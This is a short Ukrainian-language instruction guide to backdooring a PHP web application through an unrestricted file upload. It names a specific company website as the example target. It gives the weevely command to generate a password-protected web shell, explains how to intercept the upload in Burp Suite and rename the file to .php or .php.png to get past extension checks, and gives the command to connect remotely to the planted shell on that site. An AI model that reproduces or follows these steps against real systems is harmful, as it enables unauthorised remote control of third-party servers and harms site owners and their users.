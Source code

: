 # Інструкція

З поєднанням [Burp Suite](https://portswigger.net/burp) і [weevely](https://www.kali.org/tools/weevely/) ви можете створити бекдор у програмі PHP, наприклад [OMK's Website](https://omksteel.com/company/contacts/). Вам потрібно перехопити за допомогою [Burp Suite](https://portswigger.net/burp) коли файл завантажується, і змініть `filename`, швидше за все тому, що програма не дозволить розширення `.php` безпосередньо.

Створіть бекдор `weevely generate s3cr3t`

Знайдіть URL-адресу для завантаження файлу. У момент завантаження файлу ви можете перехопити запит і змінити завантажений файл, наприклад, `shell.png` (якщо веб-сайт дозволяє файли `.png`), до `shell.php`, який, по суті, є вашим бекдором.

Можливо, це також неможливо зробити, тоді ви можете спробувати завантажити `shell.php.png`. Деякі ідеї можна знайти тут: https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/File-Upload-test.txt

Потім підключіться до нього за допомогою `weevely https://omksteel.com/sample/url/shell.php s3cr3t`, де `s3cr3t` це пароль, який ви створили під час створення бекдора `shell.php` файл за допомогою `weevely`, або, швидше за все, щось більш витончене, подібний `weevely https://omksteel.com/sample/url/shell.php.png s3cr3t`.

Детальніше про завантаження файлів: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
